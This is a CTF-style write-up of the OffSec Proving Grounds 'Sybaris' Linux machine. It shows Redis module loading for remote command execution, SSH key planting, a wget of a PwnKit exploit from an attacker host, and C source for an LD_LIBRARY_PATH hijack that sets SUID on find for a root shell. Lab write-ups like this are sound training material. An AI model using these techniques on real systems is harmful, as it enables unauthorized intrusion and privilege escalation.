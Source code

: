 ```yaml
---
title: "Proving grounds Practice: Sybaris"
layout: post
date: 2024-06-20 02:00
tag: 
- CTF
- Offsec labs
- OSCP
- Writeup
- Linux
- PG-Practice
- 
writeups: true
hidden: true
author: Naveen
description: "Offsec proving grounds practice linux machine writeup"
---
```


## Nmap
```shell
PORT     STATE SERVICE VERSION
21/tcp   open  ftp     vsftpd 3.0.2
22/tcp   open  ssh     OpenSSH 7.4 (protocol 2.0)
80/tcp   open  http    Apache httpd 2.4.6 ((CentOS) PHP/7.3.22)
6379/tcp open  redis   Redis key-value store 5.0.9
```

## 21/tcp   open  ftp     vsftpd 3.0.2
Anonymous login success
No directory found

## 80/tcp   open  http Apache httpd 2.4.6 ((CentOS) PHP/7.3.22)
Nothing here...

## 6379/tcp open  redis   Redis key-value store 5.0.9
Upload module.so file to the remote machine through the FTP.
Use redis-cli to import the uploaded module for command execution

```shell
naveenj@hackerspace:[21:42]~/proving_grounds/Sybaris$ redis-cli -h 192.168.209.93
192.168.209.93:6379> MODULE LOAD /var/ftp/pub/exp.so
OK
192.168.209.93:6379> system.exe "id"
(error) ERR unknown command `system.exe`, with args beginning with: `id`, 
192.168.209.93:6379> module list
1) 1) "name"
   2) "system"
   3) "ver"
   4) (integer) 1
192.168.209.93:6379> system.exec "whoami;id;hostname;uname -a"
"pablo\nuid=1000(pablo) gid=1000(pablo) groups=1000(pablo)\nsybaris\nLinux sybaris 3.10.0-1127.19.1.el7.x86_64 #1 SMP Tue Aug 25 17:23:54 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux\n"
```

- Now copy id_rsa.pub file from the local machine to remote machine via ftp.

- Run the copy command to copy /var/ftp/pub/authorized_keys to /home/pablo/.ssh/authorized_keys. Ensure the .ssh folder was created before copying the key.

- Cross check the file using the redis-cli system.exec command and ssh to the user.

## Privilege Escalation

Sudo version vulnerable to [CVE-2021-4034](https://github.com/joeammond/CVE-2021-4034) (pwnkit).

```shell
[pablo@sybaris tmp]$ wget http://192.168.45.174/CVE-2021-4034.py -O exploit.py
--2023-10-29 22:01:50--  http://192.168.45.174/CVE-2021-4034.py
Connecting to 192.168.45.174:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 3262 (3.2K) [text/x-python]
Saving to: ‘exploit.py’

100%[===================================================================================================================================================>] 3,262       --.-K/s   in 0.003s  

2023-10-29 22:01:51 (1.09 MB/s) - ‘exploit.py’ saved [3262/3262]

[pablo@sybaris tmp]$ which python
/usr/bin/python
[pablo@sybaris tmp]$ python exploit.py 
[+] Creating shared library for exploit code.
[+] Calling execve()
[root@sybaris tmp]# cd /root
[root@sybaris root]#
```

## Alternative

```shell
[pablo@sybaris ~]$ cat /etc/crontab 
SHELL=/bin/bash
PATH=/sbin:/bin:/usr/sbin:/usr/bin
LD_LIBRARY_PATH=/usr/lib:/usr/lib64:/usr/local/lib/dev:/usr/local/lib/utils
MAILTO=""

# For details see man 4 crontabs

# Example of job definition:
# .---------------- minute (0 - 59)
# |  .------------- hour (0 - 23)
# |  |  .---------- day of month (1 - 31)
# |  |  |  .------- month (1 - 12) OR jan,feb,mar,apr ...
# |  |  |  |  .---- day of week (0 - 6) (Sunday=0 or 7) OR sun,mon,tue,wed,thu,fri,sat
# |  |  |  |  |
# *  *  *  *  * user-name  command to be executed
  *  *  *  *  * root       /usr/bin/log-sweeper
```

Abuse LD_LIBRARY_PATH

https://atom.hackstreetboys.ph/linux-privilege-escalation-environment-variables/

Exploit

```c
#include <stdio.h>
#include <stdlib.h>

static void hijack() __attribute__((constructor));

void hijack() {
        unsetenv("LD_LIBRARY_PATH");
        setresuid(0,0,0);
        system("chmod u+s /usr/bin/find");
}
```

### Compile the exploit and run

`gcc -o utils.so -shared -fPIC exploit.c`

```shell
[pablo@sybaris tmp]$ ls -al /usr/bin/find
-rwsr-sr-x. 1 root root 199304 Oct 30  2018 /usr/bin/find   #SUID bit set
[pablo@sybaris tmp]$
[pablo@sybaris tmp]$ /usr/bin/find . -exec /bin/sh -p \; -quit
```

Note after running the exploit the `SUID` bit has been set to the binry `find`.

**Root Obtained**

For more insights and updates, follow me on Twitter: [@thevillagehacker](https://twitter.com/thevillagehackr).